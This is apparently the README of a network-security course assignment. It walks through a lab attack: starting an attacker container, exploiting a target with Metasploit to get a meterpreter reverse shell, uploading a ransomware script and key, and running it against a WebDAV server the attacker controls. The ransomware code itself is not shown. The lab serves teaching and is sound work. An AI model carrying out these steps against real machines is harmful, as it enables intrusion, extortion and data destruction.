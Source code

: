 # Netsec

Practical assignment #2 for Network Security

## Running
```sh
nix run .#run
```
Gets you into the VM. Once there:

```sh
sudo sh setup.sh
sudo nixos-container start attacker
sudo nixos-container login attacker
# now inside attacker container
mkdir victim/
rclone webdav victim/ --addr :8080
sudo msfconsole --defer-module-load -r preload.rc # to get into metasploit
# inside metasploit
exploit
# inside the meterpreter reverse shell
upload bash/ransom.sh bash/pk.pem /
cd /
shell
sh ransom.sh 10.0.0.100:8080
# ransomware started!

```

